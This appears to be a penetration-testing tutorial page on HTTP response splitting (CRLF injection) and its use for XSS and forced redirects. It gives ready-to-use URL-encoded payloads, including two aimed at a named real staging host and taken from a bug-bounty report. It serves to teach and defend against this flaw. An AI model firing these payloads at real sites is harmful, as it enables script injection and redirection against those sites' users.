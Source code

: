 HTTP Response Splitting is a security vulnerability that arises when an attacker exploits the structure of HTTP responses. This structure separates headers from the body using a specific character sequence, Carriage Return (CR) followed by Line Feed (LF), collectively termed as CRLF. If an attacker manages to insert a CRLF sequence into a response header, they can effectively manipulate the subsequent response content. This type of manipulation can lead to severe security issues, notably Cross-site Scripting (XSS).

#### XSS through HTTP Response Splitting

1. The application sets a custom header like this: `X-Custom-Header: UserInput`
2. The application fetches the value for `UserInput` from a query parameter, say "user_input". In scenarios lacking proper input validation and encoding, an attacker can craft a payload that includes the CRLF sequence, followed by malicious content.
3. An attacker crafts a URL with a specially crafted 'user_input': `?user_input=Value%0d%0a%0d%0a<script>alert('XSS')</script>`
   - In this URL, `%0d%0a%0d%0a` is the URL-encoded form of CRLFCRLF. It tricks the server into inserting a CRLF sequence, making the server treat the subsequent part as the response body.
4. The server reflects the attacker's input in the response header, leading to an unintended response structure where the malicious script is interpreted by the browser as part of the response body.

#### An example of HTTP Response Splitting leading to Redirect

From [https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62](https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62)

Browser to:

```
/%0d%0aLocation:%20http://myweb.com
```

And the server responses with the header:

```
Location: http://myweb.com
```

**Other example: (from** [**https://www.acunetix.com/websitesecurity/crlf-injection/**](https://www.acunetix.com/websitesecurity/crlf-injection/)**)**

```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```

#### In URL Path

You can send the payload **inside the URL path** to control the **response** from the server (example from [here](https://hackerone.com/reports/192667)):

```
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```
